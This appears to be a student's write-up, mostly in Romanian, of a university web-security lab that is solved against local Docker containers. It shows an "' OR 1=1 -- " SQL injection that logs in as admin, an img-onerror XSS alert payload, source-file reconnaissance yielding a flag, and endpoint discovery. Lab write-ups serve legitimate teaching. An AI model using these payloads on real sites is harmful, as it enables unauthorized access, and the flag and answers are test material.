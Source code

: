 # Lab 07 - Web Security


```js
sql = "SELECT * FROM table WHERE item = '" + user_input_variable + "' <other expressions>";
database.query(sql);
```

```js
user_input_variable = "' OR 1=1 -- "; // example input given by the user
sql = "SELECT * FROM table WHERE item = '' OR 1=1 -- ' <other expressions>";
```


## Task 1 | SQL Injection


Setup, pe **local**, nu pe VM :)
```sh
# First, start the MariaDB instance in background
$ docker run -d --rm --name database ghcr.io/cs-pub-ro/isc-lab-web-db
# Wait until the DB server fully starts:
$ docker logs database -f 
# Ctrl+C and continue when it says: 'mariadbd: ready for connections.'
 
# Finally, start the lab's web server
$ docker run -it --link database:database -p 8080:8080 ghcr.io/cs-pub-ro/isc-lab-web-app
```


> Reminder: querry language-ul folosit este `MariaDB`.

Pentru a ma loga la user-ul **admin**, am facut urmatorul **SQL injection**:
(dupa comentariu `--`, obligatoriu se pune spatiu !)

```sql
admin ' OR 1= 1 -- 
```

Parola nici nu conteaza; inputul pe care il dau este:
- Username: `admin ' OR 1= 1 -- `
- Password: `e`



## Task 2 | Cross-Site Scripting


Pentru **alert**:

```html
<img src="nu-e-bn.png" onerror="alert("hello")">
```

in loc de:

```html
<src="images/simion-meme.png">
```




Pentru schimbare slogan, doar am pus un alt text in paragraf:

```html
<p>Don't vote!</p>
```

In loc de:
```html
<p>
You vote for Georgy Simion, da? He strong, like
        bear! Fight for people, for Romania, no corruption, only truth. Very
        good man! You give him vote! Make Romania great again, comrades!
</p>
```


## Task 4 | Server Reconnaissance


> Flag: **ISC{r3ad_th4_s0urce_Luke!}**.


**package.json** este fisirul despre care era vorba (pe care il au toate proiectele NodeJS).

So, intr-un tab din browser, am scris urmatorul request HTTP:
```
http://localhost:8080/package.json
```

Si am vazut ca server-ul nu ruleaza la **node.js** (cum m-as fi asteptat), ci la **server.js**:
```json
  ...
  "scripts": {
    "start": "node server.js"
  }
```

Inca un HTTP request pe `http://localhost:8080/server.js` si am cautat dupa **ISC{**.


## Task 5

Din cate vad, daca analizez unde se fac request-urile HTTP,
atunci cand dau **send** la un mesaj,
ma duce la urmatorul URL `http://localhost:8080/journal/post`,
si `http://localhost:8080/journal/delete?id=5` atunci cand dau **remove**.


Aceasta analiza se face din browser: **Click Dreapta -> Inspect -> Network**.
Eu cel mai bine m-am luat dupa coloane cu nume.

